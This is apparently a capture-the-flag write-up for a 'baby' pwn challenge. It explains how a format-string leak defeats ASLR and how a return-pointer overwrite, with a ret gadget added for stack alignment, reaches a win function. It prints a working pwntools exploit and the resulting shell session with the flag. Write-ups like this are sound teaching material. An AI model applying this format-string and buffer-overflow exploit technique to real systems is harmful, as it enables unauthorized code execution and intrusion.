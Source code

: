 # Intro to Pwning 1
**Category:** Pwn  
**Difficulty:** Baby  
**Author:** LiveOverflow  

>This is a introductory challenge for exploiting Linux binaries with memory corruptions. Nowodays there are quite a few mitigations that make it not as straight forward as it used to be.
Service running at: hax1.allesctf.net:9100

## Solution
We are given a _program_, its _source code_ and a _dummy flag_. In order to get the flag, we must call the _WINgardium\_leviosa()_ funtion. But we don't know the address of the function beacuse of ASLR. We must leak some address from the program during the _welcome()_ funtion which we can use to change the return pointer to desired funtion. After leaking some values we can calculate the offsets for _WINgardium\_leviosa()_ using gdb. Then we can overwrite the return pointer in the _AAAAAAAA()_ funtion. But we need another thing. This expoit will not work, the program will crash with a segfault and we won'get a shell. The reason is _movaps_. We have to also make the addresses aligned by using another return pointer. I created this exploit using _pwntools_.
```python
from pwn import *
p = remote("hax1.allesctf.net",9100)
FORMATSTRING = "|".join(["%p" for i in range(0,42)])
MAIN_TO_WIN_OFFSET = 0x135
p.recvuntil("Enter your witch name:")
p.sendline(FORMATSTRING)
LEAKS = p.recvuntil("enter your magic spell:").split("|")
MAIN = int(LEAKS[-4], 16)
log.info("Leaked return value: 0x{:x}".format(MAIN))
WIN = MAIN - MAIN_TO_WIN_OFFSET
RET = WIN+ 0x36
PADDING = "A"*cyclic_find("cnaa")
p.sendline("Expelliarmus\x00"+ PADDING + p64(RET) + p64(WIN))
p.interactive()
```
Runnning this exploit, we get the shell and the flag.
```bash
$python pwnsolve.py 
[+] Opening connection to hax1.allesctf.net on port 9100: Done
[*] Leaked return value: 0x560390b17b21
[*] Switching to interactive mode

~ Protego!
┌───────────────────────┐
│ You are a Slytherin.. │
└───────────────────────┘
$ ls
flag
pwn1
ynetd
$ cat flag
CSCG{NOW_PRACTICE_MORE}$ exit
[*] Got EOF while reading in interactive
$  
[1]+  Stopped                 python pwnsolve.py
```
### CSCG{NOW\_PRACTICE\_MORE}
